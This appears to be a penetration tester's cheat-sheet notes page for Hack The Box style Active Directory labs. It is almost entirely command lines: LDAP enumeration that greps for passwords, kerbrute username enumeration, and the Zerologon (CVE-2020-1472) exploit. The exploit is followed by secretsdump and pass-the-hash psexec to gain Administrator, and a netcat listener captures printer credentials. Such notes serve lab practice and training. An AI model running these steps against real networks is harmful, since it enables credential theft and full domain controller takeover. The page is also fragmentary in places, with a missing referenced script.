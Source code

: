 #### windapsearch.py
```bash - kali
cd /opt && sudo git clone https://github.com/ropnop/windapsearch
```
```bash - kali
sudo apt install python3-ldap
```
```bash - kali
cd windapsearch && ./windapsearch.py -d resolute.megabank.local --dc-ip $TARGET -U
```
```bash - kali
./windapsearch.py -d resolute.megabank.local --dc-ip $TARGET -U --full | grep Password
```
```bash - kali
./windapsearch.py -d resolute.megabank.local --dc-ip $TARGET -U > users
```
#### ldapsearch
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=<HOSTNAME>,dc=<DOMAIN>" -s sub "*" | grep -i "description"
```
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=<HOSTNAME>,dc=<DOMAIN>" -s sub "*" | grep -i "password"
```
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=<HOSTNAME>,dc=<DOMAIN>" -s sub "*" > ldapsearch.txt
```
```
lock lockoutDuration: -18000000000
lockoutObservationWindow: -18000000000
lockoutThreshold: 0
lockoutDuration: -18000000000
lockoutObservationWindow: -18000000000
lockoutThreshold: 0
```
0 means "no lock out policy"
Script to verify user's creds:
##### zerologon
```bash - kali
git clone https://github.com/SecuraBV/CVE-2020-1472
```
```bash - kali
cd CVE-2020-1472 && pip install -r requirements.txt
```
Next, look at the nmap results below to find the CN value:
```bash - kali
tcp_389_ldap_nmap.txt
```
`CN=FOREST`
```bash - kali
python3 zerologon_tester.py <CN> $TARGET
```
`Success!  DC can be fully compromised by a Zerologn attack`
[[Zero]]
```bash - kali
enum4linux $TARGET
```
Now add the target to the hosts file:
```bash - kali
sudo mousepad /etc/hosts
```
```bash - kali
sudo apt install golang
```
```bash - kali
go get github.com/ropnop/kerbrute
```
```bash - kali
cd kerbrute
```
```bash - kali
make linux
```
```bash - kali
cd dist
```
```bash - kali
./kerbrute_linux_amd64 userenum -d Zero.csl --dc Zero.csl /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
```bash - kali
git clone https://github.com/dirkjanm/CVE-2020-1472
```
```bash - kali
cd CVE-2020-1472
```
```bash - kali
sudo python3 cve-2020-1472-exploit.py ZERO-DC $TARGET
```
```bash - kali
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'Zero.csl/ZERO-DC$@$TARGET'
```
```bash - kali
psexec.py Administrator@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:36242e2cb0b26d16fafd267f39ccf990
```
#### HTB Printer Admin Page
sudo rlwrap -cAr nc -lvnp 389
Navigate to settings page:
Enter your Kali IP in the Server Address field.
Click update, get creds in listener.
